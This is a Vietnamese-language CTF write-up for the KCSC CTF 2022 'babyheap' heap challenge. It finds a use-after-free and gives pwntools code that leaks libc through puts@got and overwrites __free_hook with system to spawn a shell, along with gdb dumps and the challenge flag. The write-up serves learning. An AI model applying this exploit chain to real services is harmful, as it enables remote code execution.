

# KCSC CTF 2022 - babyheap

Các bạn có thể tải chall ở repo của mình: [babyheap.zip](babyheap.zip)

# 1. Tìm lỗi

Đây là 1 bài heap nên khi bắt đầu, mình sẽ decompile chall với ghidra trước tiên. Ở đây ta có tổng cộng 4 hàm là `create_note`, `free_note`, `read_note` và `write_note`.

Ở hàm `create_note`, chương trình đầu tiên `malloc(0x10)` để lưu trữ size và địa chỉ của dữ liệu mà ta sẽ nhập vào. Sau đó chương trình yêu cầu ta nhập size cho dữ liệu mà ta sẽ nhập, và malloc với cái size đó. Cuối cùng lưu cái chunk chứa size và địa chỉ dữ liệu nhập vào biến global `page_table`. Chunk để lưu trữ size và địa chỉ có dạng (ví dụ size là 0x40):

```gdb
---------------------------------------------------------
| 0x405290:    0x0000000000000000    0x0000000000000021 |
| 0x4052a0:    0x0000000000000040    0x00000000004052c0 |    <-- Size / Address
---------------------------------------------------------
```

Khi tạo xong thì chuyển sang `write_note` để thực hiện việc ghi dữ liệu. Nó sẽ dùng size mà ta nhập vào để read vào địa chỉ. Ở ví dụ trên, size là `0x40` thì ta có thể nhập tối đa `0x40` byte vào địa chỉ `0x00000000004052c0`.

Đồng thời ở bên hàm `read_note`, nó cũng sẽ in ra số byte tương ứng với size. Ở ví dụ trên, size là `0x40` thì nó sẽ in ra đúng `0x40` byte có trong `0x00000000004052c0`.

Và cuối cùng là ở hàm `free_note`. Theo ví dụ trên thì chương trình sẽ free chunk chứa dữ liệu trước là `0x00000000004052c0`, sau đó sẽ free chunk chứa size và địa chỉ của dữ liệu được nhập. Tuy nhiên sau khi free, các pointer vẫn còn tồn tại trong biến toàn cục `page_table` --> **Use After Free**

# 2. Ý tưởng

Do bài không cung cấp libc nên ta sẽ đoán =)))

Thông thường, nếu với libc từ 2.32 trở lên thì khi free 1 chunk và chunk đó đi vào tcache thì với cái cơ chế xor trước khi ghi vào forward pointer của tcache sẽ làm cho forward pointer khác null. Và nếu ta dùng `read_note` mà khác null vậy ta đoán libc sẽ lớn hơn hoặc bằng 2.32.

Tuy nhiên khi free 1 chunk và ta `read_note` thì size bằng 0. Vậy ta xác định libc <= 2.31.

Tuy nhiên, mình nhận thấy ở challenge pwnMe, libc leak ra là libc 2.23 =))). Vì thế mình sẽ thử lấy libc bên đó và patch vào file bên này xem thử coi có được không. Patch xong thì ta tạo 2 chunk và free hết 2 chunk đó. Nhận thấy chunk 1 không chứa gì ở forward pointer nhưng chunk 2 thì có. Ta chạy thử trên server, cũng tạo 2 chunk và free 2 chunk đó, xong ta `read_note` của chunk free thứ 2 để in ra size thì ta thấy size đó tương đương với size khi ta chạy local.

Vậy ta xài libc đó luôn =)))

Và với libc 2.23 đó, ta thấy khi 2 chunk được khởi tạo và free thì chunk chứa size và địa chỉ chứa dữ liệu nhập sẽ như sau:

```gdb
------------------------ Note 0 -------------------------
| 0x405000:    0x0000000000000000    0x0000000000000021 |
| 0x405010:    0x0000000000000040    0x0000000000405030 |    <-- Size / Address
| 0x405020:    0x0000000000000000    0x0000000000000051 |
| 0x405030:    0x0000000a41414141    0x0000000000000000 |
| 0x405040:    0x0000000000000000    0x0000000000000000 |
| 0x405050:    0x0000000000000000    0x0000000000000000 |
| 0x405060:    0x0000000000000000    0x0000000000000000 |
------------------------ Note 1 -------------------------
| 0x405070:    0x0000000000000000    0x0000000000000021 |
| 0x405080:    0x0000000000000040    0x00000000004050a0 |    <-- Size / Address
| 0x405090:    0x0000000000000000    0x0000000000000051 |
| 0x4050a0:    0x0000000a42424242    0x0000000000000000 |
| 0x4050b0:    0x0000000000000000    0x0000000000000000 |
| 0x4050c0:    0x0000000000000000    0x0000000000000000 |
| 0x4050d0:    0x0000000000000000    0x0000000000000000 |
---------------------------------------------------------
                            ↓
                      free(Note 1)
                            ↓
                      free(Note 2)
                            ↓
------------------------ Note 0 -------------------------
| 0x405000:    0x0000000000000000    0x0000000000000021 |
| 0x405010:    0x0000000000000000    0x0000000000405030 |    <-- Size / Address
| 0x405020:    0x0000000000000000    0x0000000000000051 |
| 0x405030:    0x0000000000000000    0x0000000000000000 |
| 0x405040:    0x0000000000000000    0x0000000000000000 |
| 0x405050:    0x0000000000000000    0x0000000000000000 |
| 0x405060:    0x0000000000000000    0x0000000000000000 |
------------------------ Note 1 -------------------------
| 0x405070:    0x0000000000000000    0x0000000000000021 |
| 0x405080:    0x0000000000405000    0x00000000004050a0 |    <-- Size / Address
| 0x405090:    0x0000000000000000    0x0000000000000051 |
| 0x4050a0:    0x0000000000405020    0x0000000000000000 |
| 0x4050b0:    0x0000000000000000    0x0000000000000000 |
| 0x4050c0:    0x0000000000000000    0x0000000000000000 |
| 0x4050d0:    0x0000000000000000    0x0000000000000000 |
---------------------------------------------------------
```

Ta thấy rằng ở Note 1, phần size là địa chỉ base của heap. Với size đó, ta có thể làm cho Note 1 ghi đè lên thông tin của Note 2. Cụ thể là ghi đè size của Note 2 thành số nhỏ hơn chẳng hạn 8 và ghi đè địa chỉ chứa dữ liệu của note 2 thành bất kỳ @got rồi thực thi `read_note` để leak libc.

Khi có libc, ta vẫn dùng Note 1 để ghi đè size của Note 2 thành 8 và địa chỉ chứa dữ liệu thành địa chỉ `__free_hook` và dùng `write_note` để ghi vào `__free_hook` địa chỉ system.

Cuối cùng ta free 1 Note bất kỳ chứa chuỗi `"/bin/sh"` để lấy shell.

Tóm tắt:
- Stage 1: Leak libc
- Stage 2: Change `__free_hook` into `system` & get shell

# 3. Khai thác

Để thuận tiện cho việc khai thác, mình có viết các hàm sau đây:

```python
def create(idx, size, data):
    p.sendlineafter(b'>> ', b'1')
    p.sendlineafter(b'index: ', f'{idx}'.encode())
    p.sendlineafter(b'Size: ', f'{size}'.encode())
    p.sendafter(b'say?', data)

def free(idx):
    p.sendlineafter(b'>> ', b'2')
    p.sendlineafter(b'index: ', f'{idx}'.encode())

def read(idx):
    p.sendlineafter(b'>> ', b'3')
    p.sendlineafter(b'index: ', f'{idx}'.encode())

def write(idx, data):
    p.sendlineafter(b'>> ', b'4')
    p.sendlineafter(b'index: ', f'{idx}'.encode())
    p.sendafter(b'say?', data)
```

Và chúng ta bắt đầu thôi nào!

### Stage 1: Leak libc

Trước tiên, ta tạo 3 chunk và free 3 chunk đó:

```python
for i in range(3):
    create(i, 0x40, f'{i}'.encode()*8)
for i in range(3):
    free(i)
```

Sau đó ta ghi đè size của Note 2 và địa chỉ chứa dữ liệu của Note 2 thành puts@got và dùng `read_note` để leak libc ra:

```python
write(1, b'A'*0x48 + p64(0x21) + p64(8) + p64(exe.got['puts']))
read(2)
p.recvline()
puts_addr = u64(p.recvline()[:-1])
log.info("Puts address: " + hex(puts_addr))
libc.address = puts_addr - libc.sym['puts']
log.info("Libc base: " + hex(libc.address))
```

Địa chỉ chunk khi debug giống như này:

```gdb
------------------------- Note 0 -------------------------
| 0x1771000:    0x0000000000000000    0x0000000000000021 |
| 0x1771010:    0x0000000000000000    0x0000000001771030 |    <-- Size / Address
| 0x1771020:    0x0000000000000000    0x0000000000000051 |
| 0x1771030:    0x0000000000000000    0x0000000000000000 |
| 0x1771040:    0x0000000000000000    0x0000000000000000 |
| 0x1771050:    0x0000000000000000    0x0000000000000000 |
| 0x1771060:    0x0000000000000000    0x0000000000000000 |
------------------------- Note 1 -------------------------
| 0x1771070:    0x0000000000000000    0x0000000000000021 |
| 0x1771080:    0x0000000001771000    0x00000000017710a0 |    <-- Size / Address
| 0x1771090:    0x0000000000000000    0x0000000000000051 |
| 0x17710a0:    0x4141414141414141    0x4141414141414141 |
| 0x17710b0:    0x4141414141414141    0x4141414141414141 |
| 0x17710c0:    0x4141414141414141    0x4141414141414141 |
| 0x17710d0:    0x4141414141414141    0x4141414141414141 |
------------------------- Note 2 -------------------------
| 0x17710e0:    0x4141414141414141    0x0000000000000021 |
| 0x17710f0:    0x0000000000000008    0x0000000000404028 |    <-- Size (8) / Address (puts@got)
| 0x1771100:    0x0000000000000000    0x0000000000000051 |
| 0x1771110:    0x0000000001771090    0x0000000000000000 |
| 0x1771120:    0x0000000000000000    0x0000000000000000 |
| 0x1771130:    0x0000000000000000    0x0000000000000000 |
| 0x1771140:    0x0000000000000000    0x0000000000000000 |
---------------------------------------------------------
```

Khi đã có địa chỉ libc trong tay, ta tiếp tục sang bước 2.

### Stage 2: Change `__free_hook` into `system` & get shell

Vẫn như trên, ta sẽ thay đổi địa chỉ chứa dữ liệu của Note 2 thành địa chỉ `__free_hook` và dùng `write_note` để ghi địa chỉ `system` vào `__free_hook`:

```python
write(1, b'A'*0x48 + p64(0x21) + p64(8) + p64(libc.sym['__free_hook']))
write(2, p64(libc.sym['system']))
```

Cuối cùng ta tạo 1 Note mới và nhập vào chuỗi `"/bin/sh"` và free Note đó đi, và ta lấy được shell:

```python
create(0, 0x40, b'/bin/sh\x00')
free(0)
```

Full code: [solve.py](solve.py)

# 4. Lấy cờ



Flag là `KCSC{6ed196ea0b4b367f4123ef78becfbf32}`